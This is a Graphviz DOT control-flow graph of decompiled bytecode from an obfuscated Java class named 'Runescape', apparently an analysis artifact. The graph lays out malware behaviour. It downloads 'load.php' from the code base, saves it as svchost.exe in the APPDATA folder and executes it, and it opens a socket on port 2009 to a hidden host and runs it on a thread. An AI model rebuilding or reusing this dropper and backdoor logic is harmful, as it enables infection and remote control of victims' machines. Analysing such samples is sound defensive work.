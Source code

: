 digraph "" {
    "r0 := @this: Runescape"
    "new java.net.Socket"
    "r0 := @this: Runescape"->"new java.net.Socket";
    "dup1.r"
    "new java.net.Socket"->"dup1.r";
    "store.r r3"
    "dup1.r"->"store.r r3";
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"
    "store.r r3"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "store.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"store.l l4";
    "staticget <qqmOYUhlRd: boolean PaKZShdGyb>"
    "store.l l4"->"staticget <qqmOYUhlRd: boolean PaKZShdGyb>";
    "ifeq staticget <qqmOYUhlRd: boolean uvnWSEnhZB>"
    "staticget <qqmOYUhlRd: boolean PaKZShdGyb>"->"ifeq staticget <qqmOYUhlRd: boolean uvnWSEnhZB>";
    "ifeq staticget <qqmOYUhlRd: boolean uvnWSEnhZB>"->"staticget <qqmOYUhlRd: boolean PaKZShdGyb>";
    "push 1"
    "staticget <qqmOYUhlRd: boolean PaKZShdGyb>"->"push 1";
    "ifcmpne.b return"
    "push 1"->"ifcmpne.b return";
    "staticget <qqmOYUhlRd: boolean uvnWSEnhZB>"
    "ifcmpne.b return"->"staticget <qqmOYUhlRd: boolean uvnWSEnhZB>";
    "staticget <qqmOYUhlRd: boolean uvnWSEnhZB>"->"push 1";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"
    "push 1"->"ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>";
    "push \"APPDATA\""
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "push \"\\svchost.exe\""
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"push \"\\svchost.exe\"";
    "staticput <Runescape: java.lang.String CyPdnHuOvg>"
    "push \"\\svchost.exe\""->"staticput <Runescape: java.lang.String CyPdnHuOvg>";
    "new java.net.URL"
    "staticput <Runescape: java.lang.String CyPdnHuOvg>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "virtualinvoke <Runescape: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <Runescape: java.net.URL getCodeBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <Runescape: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"load.php\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"load.php\"";
    "push \"load.php\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r3";
    "staticget <Runescape: java.lang.String CyPdnHuOvg>"
    "store.r r3"->"staticget <Runescape: java.lang.String CyPdnHuOvg>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "staticget <Runescape: java.lang.String CyPdnHuOvg>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r0";
    "load.r r3"
    "store.r r0"->"load.r r3";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r3"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r21"
    "new java.io.FileOutputStream"->"store.r $r21";
    "load.r $r21"
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r3";
    "load.r r7"
    "load.r r3"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "store.i i5"->"staticget <qqmOYUhlRd: boolean uvnWSEnhZB>";
    "staticget <qqmOYUhlRd: boolean uvnWSEnhZB>"->"push 1";
    "ifcmpne.b load.r r3"
    "push 1"->"ifcmpne.b load.r r3";
    "load.i i5"
    "ifcmpne.b load.r r3"->"load.i i5";
    "ifle load.r r3"
    "load.i i5"->"ifle load.r r3";
    "ifle load.r r3"->"load.r $r21";
    "load.r $r21"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.i i5";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i5"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r3";
    "load.r r3"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "goto load.i i5"
    "store.i i5"->"goto load.i i5";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "ifle load.r r3"->"load.r r3";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r21";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r21"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"goto return";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "load.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"load.l l4";
    "sub.l"
    "load.l l4"->"sub.l";
    "push 1000L"
    "sub.l"->"push 1000L";
    "div.l"
    "push 1000L"->"div.l";
    "push 10L"
    "div.l"->"push 10L";
    "cmp.l"
    "push 10L"->"cmp.l";
    "ifne staticget <qqmOYUhlRd: boolean PaKZShdGyb>"
    "cmp.l"->"ifne staticget <qqmOYUhlRd: boolean PaKZShdGyb>";
    "ifne staticget <qqmOYUhlRd: boolean PaKZShdGyb>"->"push 1";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto staticget <qqmOYUhlRd: boolean PaKZShdGyb>"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto staticget <qqmOYUhlRd: boolean PaKZShdGyb>";
    "dup1.r"->"store.r r3";
    "staticinvoke <Runescape: java.lang.String mgczUpcuux()>"
    "dup1.r"->"staticinvoke <Runescape: java.lang.String mgczUpcuux()>";
    "push 2009"
    "staticinvoke <Runescape: java.lang.String mgczUpcuux()>"->"push 2009";
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"
    "push 2009"->"specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>";
    "staticput <Runescape: java.net.Socket aVzZiGhghM>"
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"->"staticput <Runescape: java.net.Socket aVzZiGhghM>";
    "new java.lang.Thread"
    "staticput <Runescape: java.net.Socket aVzZiGhghM>"->"new java.lang.Thread";
    "new java.lang.Thread"->"dup1.r";
    "new qqmOYUhlRd"
    "dup1.r"->"new qqmOYUhlRd";
    "new qqmOYUhlRd"->"dup1.r";
    "staticget <Runescape: java.net.Socket aVzZiGhghM>"
    "dup1.r"->"staticget <Runescape: java.net.Socket aVzZiGhghM>";
    "specialinvoke <qqmOYUhlRd: void <init>(java.net.Socket)>"
    "staticget <Runescape: java.net.Socket aVzZiGhghM>"->"specialinvoke <qqmOYUhlRd: void <init>(java.net.Socket)>";
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"
    "specialinvoke <qqmOYUhlRd: void <init>(java.net.Socket)>"->"specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>";
    "staticput <Runescape: java.lang.Thread EQAdSzHWyC>"
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"->"staticput <Runescape: java.lang.Thread EQAdSzHWyC>";
    "staticget <Runescape: java.lang.Thread EQAdSzHWyC>"
    "staticput <Runescape: java.lang.Thread EQAdSzHWyC>"->"staticget <Runescape: java.lang.Thread EQAdSzHWyC>";
    "virtualinvoke <java.lang.Thread: void start()>"
    "staticget <Runescape: java.lang.Thread EQAdSzHWyC>"->"virtualinvoke <java.lang.Thread: void start()>";
    "virtualinvoke <java.lang.Thread: void start()>"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
}
